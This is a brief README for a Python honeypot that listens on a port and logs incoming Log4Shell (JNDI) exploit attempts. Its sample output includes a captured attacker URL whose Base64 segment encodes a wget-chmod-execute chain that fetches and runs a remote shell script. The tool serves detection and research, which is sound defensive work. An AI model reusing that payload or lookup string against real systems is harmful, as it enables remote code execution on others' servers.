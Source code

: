 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs informations when a wild log4j exploit appears

## Running

```
python3 detector.py [port]
```

Example:
```
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.
